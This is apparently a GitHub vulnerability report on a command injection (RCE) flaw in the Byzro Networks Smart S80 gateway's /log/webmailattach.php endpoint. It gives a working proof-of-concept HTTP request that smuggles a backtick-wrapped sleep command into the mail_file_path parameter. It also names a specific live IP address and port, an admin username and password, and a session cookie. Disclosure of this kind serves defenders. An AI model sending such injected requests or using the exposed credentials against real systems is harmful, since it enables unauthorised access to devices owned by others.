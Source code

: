 Byzro Networks Smart S80 management platform has rce vulnerability

# Vulnerability description

Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet.
Byzro Networks Smart S80 gateway intelligent management platform has rce vulnerability. An attacker can exploit the vulnerability to gain server permissions and manipulate server files.

# Impact versions of vulnerabilities

Smart S80

# Vulnerability location

/log/webmailattach.php

# Details of the vulnerability

The mail_file_path parameter in the code is controllable and is directly brought to the command execution function exec to execute the command, causing the command to be executed.

<a href="https://smms.app/image/EBJoAW1SbdgDvmz" target="_blank"><img src="https://s2.loli.net/2024/03/28/EBJoAW1SbdgDvmz.png" ></a>

The following is a recurrence of the vulnerability

Ip：https://125.67.126.126:8443/

Here is the login page，username is admin and password is 20015480.

<a href="https://smms.app/image/5nSTZyD3idkwYf9" target="_blank"><img src="https://s2.loli.net/2024/03/28/5nSTZyD3idkwYf9.png" ></a>

Construct a POC and perform delay testing through the sleep function

```
GET /log/webmailattach.php?table_name=777&mail_file_path=12`sleep%205`4  HTTP/1.1
Host: 125.67.126.126:8443
Cookie: PHPSESSID=eb590380ff7db31711aeffe1f3365b06
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

<a href="https://smms.app/image/lSvfeKjHN82ABFL" target="_blank"><img src="https://s2.loli.net/2024/03/28/lSvfeKjHN82ABFL.png" ></a>

